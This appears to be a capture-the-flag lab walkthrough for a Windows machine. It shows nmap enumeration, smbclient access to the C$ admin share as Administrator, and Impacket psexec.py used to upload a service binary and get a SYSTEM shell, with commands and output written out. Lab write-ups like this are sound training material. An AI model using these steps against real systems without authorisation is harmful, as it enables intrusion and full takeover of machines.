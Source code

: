# Tactics
Enumeration


```
┌──(melle㉿tuguldur)-[~/Downloads]
└─$ sudo nmap -sC -sV 10.129.135.12 
[sudo] password for melle: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-22 12:43 CDT
Nmap scan report for 10.129.135.12
Host is up (0.23s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6s
| smb2-time: 
|   date: 2024-04-22T17:44:13
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.73 seconds
```


![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/8985ba37-521e-47ca-b68d-8b91e594ceab)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/ff381e5a-5805-4747-9109-41cfb89c3aaa)
```
┌──(melle㉿tuguldur)-[~/Downloads]
└─$ smbclient  \\\\10.129.135.12\\C$  -U Administrator 
Password for [WORKGROUP\Administrator]:
Try "help" to get a list of possible commands.
smb: \> dir
  $Recycle.Bin                      DHS        0  Wed Apr 21 10:23:49 2021
  Config.Msi                        DHS        0  Wed Jul  7 13:04:56 2021
  Documents and Settings          DHSrn        0  Wed Apr 21 10:17:12 2021
  pagefile.sys                      AHS 738197504  Mon Apr 22 12:38:37 2024
  PerfLogs                            D        0  Sat Sep 15 02:19:00 2018
  Program Files                      DR        0  Wed Jul  7 13:04:24 2021
  Program Files (x86)                 D        0  Wed Jul  7 13:03:38 2021
  ProgramData                        DH        0  Tue Sep 13 11:27:53 2022
  Recovery                         DHSn        0  Wed Apr 21 10:17:15 2021
  System Volume Information         DHS        0  Wed Apr 21 10:34:04 2021
  Users                              DR        0  Wed Apr 21 10:23:18 2021
  Windows                             D        0  Wed Jul  7 13:05:23 2021
```
###### Foothold


![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/c953b48c-8f4d-41b3-9fa5-6236ee981c20)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/4b321c97-8ffb-4d48-9be3-91441c266635)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/70d28431-f319-4b49-acc0-99183a459423)


Syntax: sudo psexec.py username@{Target_IP}


```
┌──(melle㉿tuguldur)-[~/Downloads]
└─$ sudo python3 psexec.py administrator@10.129.135.12
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[*] Requesting shares on 10.129.135.12.....
[*] Found writable share ADMIN$
[*] Uploading file nvEFQWpw.exe
[*] Opening SVCManager on 10.129.135.12.....
[*] Creating service RgcW on 10.129.135.12.....
[*] Starting service RgcW.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
```
![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/7702e7e3-a22d-4024-b39c-cbc09e33fff1)


![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/2166f39a-593f-4dda-9bd9-a678288e097d)
`Got a shell as user ‘nt authority system’ 
`








